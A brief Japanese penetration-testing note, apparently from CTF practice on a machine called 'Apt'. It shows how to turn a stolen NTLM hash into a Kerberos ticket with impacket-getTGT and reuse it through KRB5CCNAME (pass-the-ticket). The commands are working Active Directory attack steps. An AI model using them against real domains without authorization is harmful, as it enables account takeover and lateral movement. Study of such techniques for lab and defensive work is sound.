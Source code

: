 # Pass The Hashがいけそでいけねー場合はPass The Ticketを狙うべし

Kerberosチケットでの認証は許可されていて、NTLMでの認証は許可されていないかも。

**impacket-getTGT** でハッシュからTGTを作成。

```
impacket-getTGT -hashes <NTLM hash> -dc-ip <IP> <domain>/<username>
```

その後、チケットがつくれてuser.ccacheに保存されたら、以下のようにチケットを登録する：

```
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
```

チケットができたら、今までpass the hashでやっていたimpacketを、このチケットをつかって行えばよい（オプション **-no-pass -k**）。

Aptではbruteforceした：

![gettgtbrute](https://user-images.githubusercontent.com/85237728/159113359-050c0e98-259d-406a-aff3-7230cc59e61a.png)
